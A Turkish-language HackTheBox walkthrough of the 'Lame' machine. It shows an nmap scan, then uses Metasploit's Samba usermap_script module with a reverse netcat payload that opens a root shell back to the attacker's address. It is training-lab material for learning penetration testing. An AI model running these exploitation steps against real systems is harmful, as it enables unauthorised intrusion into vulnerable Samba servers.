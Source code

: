 ```yaml
---
title: Lame
date: 2024-03-27 12:03:12 
categories: [HackTheBox]
tags: [Easy, Linux]  
image: /images/lame.webp
---
```


Lame, root erişimi elde etmek için yalnızca bir istismar gerektiren başlangıç seviyesinde bir makinedir.

<a href="https://app.hackthebox.com/machines/Lame">Lame</a>

--- 

nmap taramasıyla başlıyorum.

````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.10.3 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 04:48 EDT
Nmap scan report for 10.10.10.3 (10.10.10.3)
Host is up (0.076s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.05 seconds
````

ftp ve smb servisleri çalışıyor. vsftpd 2.3.4 versiyonunda zafiyetler var fakat bu makine için kullanılamıyor. Bu yüzden hedefim smb servisi.

exploit/multi/samba/usermap_script metasploit modulünü kullanıyorum.

````bash
┌──(root㉿kali)-[~]
└─# msfconsole
Metasploit tip: Display the Framework log using the log command, learn 
more with help log
                                                  
                                   ___          ____
                               ,-""   `.      < HONK >
                             ,'  _   e )`-._ /  ----
                            /  ,' `-._<.===-'
                           /  /
                          /  ;
              _          /   ;
 (`._    _.-"" ""--..__,'    |
 <_  `-""                     \
  <`-                          :
   (__   <__.                  ;
     `-.   '-.__.      _.'    /
        \      `-.__,-'    _,'
         `._    ,    /__,-'
            ""._\__,'< <____
                 | |  `----.`.
                 | |        \ `.
                 ; |___      \-``
                 \   --<
                  `.`.<
                    `-'



       =[ metasploit v6.4.0-dev                           ]
+ -- --=[ 2404 exploits - 1239 auxiliary - 422 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.4
lhost => 10.10.14.4
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:59143) at 2024-03-29 04:54:12 -0400

whoami
root
````

İşlem bu kadar :)


![fsoc](/images/fsoc.gif)
